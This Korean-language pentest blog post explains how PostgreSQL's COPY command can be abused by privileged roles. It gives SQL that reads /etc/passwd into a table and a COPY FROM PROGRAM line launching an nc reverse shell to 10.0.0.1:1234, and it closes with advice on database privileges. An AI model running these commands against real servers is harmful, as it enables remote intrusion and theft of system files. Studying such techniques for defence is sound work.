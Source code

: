 ```yaml
---
title: postgresql with Command Execution
date: 2025-01-31
author: glasses96
categories: [pentest]
tags: [pentest]
pin: true
math: true
mermaid: true
---
```


> **postgresql 접근이 가능하면 RCE가 가능할 수도 있습니다.** 
{: .prompt-info }

<span style="color:#9999FF"></span>

## What is Postgresql
postgresql은 오픈소스 관계형 데이터베이스 관리 시스템(RDBMS)입니다.  
무료로 사용이 가능하며, 안정성과 확장성이 좋은 평가를 받고있다고 공식홈페이지에서 소개를 하고 있습니다.  

## How to Command Execution with postgresql
[COPY]("https://www.postgresql.org/docs/current/sql-copy.html") 기능을 사용하는 것입니다.  
아래의 권한을 부여 받았더라면 해당 권한을 이용하여 쿼리를 이용하여 서버에 파일을 읽거나 쓰기가 가능하며, 명령을 실행할 수 도 있습니다.  
postgresql은 설치 과정에서 `postgres` 라는 슈퍼유저 계정을 자동으로 생성하기 때문에 보안의 입장에서는 해당 계정에 대한 제어가 필요합니다.  

- superuser
- pg_read_server_files — 파일 읽기 허용
- pg_write_server_files — 파일에 쓰기 허용
- pg_execute_server_program — 운영 체제에서 직접 명령을 실행 가능

### COPY TO/FROM
해당 명령은 사용자가 운영 체제와 직접 상호 작용할 수 있도록 가능하여 공격자 입장에서 RCE 명령을 통해 DB계정으로 서버의 쉘 권한을 획득이 가능합니다.

예를 들어 서버의 passwd 파일을 읽고 싶다면 아래와 같은 명령어를 통해 파일 내용을 테이블에 추가할 수 있습니다.
1. CREATE TABLE read_files(output text);
2. COPY read_files FROM ('/etc/passwd');
3. SELECT * FROM read_files;

![DB](/assets/post/61/passwd.png)

### COPY TO/FROM PROGRAM to RCE
만약 아래와 같이 RCE 명령이 실행되면 postgres라는 권한의 쉘을 획득할 수 있습니다.  

1. CREATE TABLE shell(output text);
2. COPY shell FROM PROGRAM ‘rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f’;


## Reference
- https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767
- https://www.postgresql.org/docs/current/sql-copy.html

## 마무리하며
postgresql의 COPY라는 기능을 이용하여 Command Execution이 가능한 것을 알아보았습니다.  
이를 통해 DB의 권한을 잘 부여해서 사용해야한다는 점을 명심해야겠습니다. 